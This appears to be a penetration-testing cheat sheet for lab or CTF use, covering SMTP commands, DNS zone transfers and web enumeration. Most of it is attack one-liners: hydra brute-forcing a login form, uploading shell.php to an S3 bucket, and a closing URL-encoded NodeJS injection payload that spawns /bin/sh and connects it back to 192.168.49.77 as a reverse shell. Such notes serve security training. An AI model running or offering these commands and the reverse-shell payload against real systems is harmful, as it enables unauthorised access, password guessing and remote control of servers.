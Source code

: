```
HELO - 
EHLO - Extended SMTP.
STARTTLS - SMTP communicted over unencrypted protocol. By starting TLS-session we encrypt the traffic.
RCPT - Address of the recipient.
DATA - Starts the transfer of the message contents.
RSET - Used to abort the current email transaction.
MAIL - Specifies the email address of the sender.
QUIT - Closes the connection.
HELP - Asks for the help screen.
AUTH - Used to authenticate the client to the server.
VRFY - Asks the server to verify is the email user's mailbox exists.
```

Source: https://d00mfist.gitbooks.io/ctf/content/list\_of\_common\_ports.html

#### DNS (53)

```shell
nmap --script=dns-zone-transfer -p 53 [IP_ADDR]
dig axfr [DOMAIN].[TLD] @[IP_ADDR]
dig @[IP_ADDR] -x [IP_ADDR]
nslookup [IP_ADDR]
> server
> 127.0.0.1
> 127.0.0.2
> [IP_ADDR]
```

#### HTTP (80) / HTTPS (443)

```shell
gobuster dir -u [URL] -w [WORDLIST] -b "400,404"    # web enumeration, note: windows web server are case insensitive
ffuf -u http://[IP_ADDR]/ -H "Host: FUZZ.[DOMAIN]" -w /seclists/Discovery/DNS/shubs-subdomains.txt -t 100 -fl 10
nikto -h [URL]
davtest -url [URL]    # PUT method test
cadaver [IP_ADDR]    # for authenticated webdav with credentials
cewl [URL]    # get possible password from site
wpscan --url    # or manually browse to /wp-content/plugins/ if no plugins found
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb   # aws s3 bucket list
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb   # upload file
hydra [IP_ADDR] http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f
openssl s_client -connect [IP_ADDR]:443


----NodeJS function injection----
(function(){var+net+%3d+require("net"),cp%3drequire("child_process"),sh%3dcp.spawn("/bin/sh",+[])%3bvar+client+%3d+new+net.Socket()%3b+client.connect(21,+"192.168.49.77",+function(){client.pipe(sh.stdin)%3bsh.stdout.pipe(client)%3bsh.stderr.pipe(client)%3b})%3breturn+/a/%3b})()%3b
```
